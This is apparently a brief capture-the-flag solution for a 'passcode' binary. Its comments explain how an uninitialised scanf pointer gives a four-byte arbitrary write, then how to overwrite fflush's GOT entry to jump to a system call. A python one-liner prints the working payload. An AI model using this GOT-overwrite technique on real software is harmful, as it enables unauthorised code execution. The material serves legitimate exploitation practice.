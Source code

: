 # scanf is using the pointer in the passcode1 and passcode2 to write
# bytes 96 to 100 of user are in the passcode1
# we can write what we want (4 bytes (int)) wherever we want (on the first scanf)

# get got table from readelf -a passcode
# check fflush address (0x0804a004) and overwrite with the instruction before system (0x80485e3 ->134514147)

python -c "print 'A'*96+'\x04\xa0\x04\x08\n'+'134514147\n'+'a\n'"